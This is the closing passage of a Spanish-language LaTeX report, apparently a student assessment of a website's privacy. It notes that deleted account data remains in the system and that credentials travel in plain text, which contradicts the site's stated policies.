    
\includegraphics[width=15cm]{noolvida.PNG}
\end{figure}
\newline
Lo que demuestra claramente, que los datos no fueron borrados, ni la cuenta tampoco. Aun siguen dentro del sistema, y en caso de querer usar la cuenta, se podrá volver a activar. 
\newline
\textbf{14.-¿Los resultados obtenidos se condicen con las políticas de privacidad y seguridad del sitio?}
\newline
De cierta manera, no cumplen con las políticas de privacidad, ya que aseguran que existirá una confidencialidad de los datos de usuarios, pero al momento de ingresar en su cuenta, se ve la primera vulnerabilidad ante los datos del usuario. Al ser pasados los datos de usuario y contraseña mediante texto plano, ya existe una contradicción ante las políticas de seguridad de la pagina. 

\end{document}
